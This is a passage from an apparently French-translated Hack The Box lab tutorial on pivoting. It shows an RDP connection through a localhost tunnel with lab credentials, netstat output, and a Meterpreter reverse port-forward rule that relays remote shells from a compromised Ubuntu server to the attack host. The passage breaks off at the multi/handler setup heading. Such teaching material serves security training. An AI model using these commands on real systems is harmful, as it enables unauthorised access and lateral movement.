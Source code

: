 #### Connexion à Windows Target via localhost

Connexion à Windows Target via localhost

```
dsgsec@htb[/htb]$ xfreerdp /v:localhost:3300 /u:victor /p:pass@123

```

#### Sortie Netstat

Nous pouvons utiliser Netstat pour afficher des informations sur la session que nous avons récemment établie. D'un point de vue défensif, nous pouvons bénéficier de l'utilisation de Netstat si nous soupçonnons qu'un hôte a été compromis. Cela nous permet de voir toutes les sessions qu'un hôte a établies.

Sortie Netstat

```
dsgsec@htb[/htb]$ netstat -antp

tcp 0 0 127.0.0.1:54652 127.0.0.1:3300 ÉTABLI 4075/xfreerdp

```

* * * * *

Redirection de port inversée Meterpreter
-----------------------------------

Semblable à la redirection de port local, Metasploit peut également effectuer une `redirection de port inverse` avec la commande ci-dessous, où vous voudrez peut-être écouter sur un port spécifique sur le serveur compromis et transférer tous les shells entrants du serveur Ubuntu vers notre hôte d'attaque. Nous allons démarrer un écouteur sur un nouveau port sur notre hôte d'attaque pour Windows et demander au serveur Ubuntu de transmettre toutes les requêtes reçues au serveur Ubuntu sur le port `1234` à notre écouteur sur le port `8081`.

Nous pouvons créer une redirection de port inversée sur notre shell existant à partir du scénario précédent à l'aide de la commande ci-dessous. Cette commande transfère toutes les connexions sur le port `1234` s'exécutant sur le serveur Ubuntu à notre hôte d'attaque sur le port local (`-l`) `8081`. Nous allons également configurer notre écouteur pour écouter sur le port 8081 pour un shell Windows.

#### Règles de transfert de port inversé

Règles de transfert de port inversé

```
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18

[*] Relais TCP local créé : 10.10.14.18:8081 <-> :1234

```

#### Configuration et démarrage de multi/handler

Configurer et démarrer le multi/gestionnaire
